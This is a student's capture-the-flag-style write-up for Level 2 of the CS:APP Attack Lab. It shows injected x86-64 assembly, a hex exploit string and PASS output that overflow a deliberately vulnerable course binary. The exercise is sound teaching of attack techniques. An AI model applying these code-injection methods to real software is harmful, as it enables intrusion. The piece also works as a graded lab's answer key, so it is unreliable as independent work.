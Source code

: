 # CS:APP Attacklab Writeup
## Level 2
Recalling that:
This program is set up in a way that
the stack positions will be consistent from one run to the next and so that data on the stack can be treated as
executable code. These features make the program vulnerable to attacks where the exploit strings contain
the byte encodings of executable code.

So, we can ask the program to return to the place of the the attack instructions.

We can devise the following assembly code:
```asm
movq $0x59b997fa, %rdi
subq $0x10, %rsp
ret
nop
```
and turn the return address into 0x4017ec.

However, this failed with a segment fault.
```
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault!
```

In fact, we should not edit stack and change the value of %rsp to get the return address, which corrupts the other data in the stack.

Instead, use `pushq` to push the return address into stack:
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
nop
```

And this makes things correct.

```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 11 45 14 11 EC 17 40 00 00 00 00 78 DC 61 55 
```
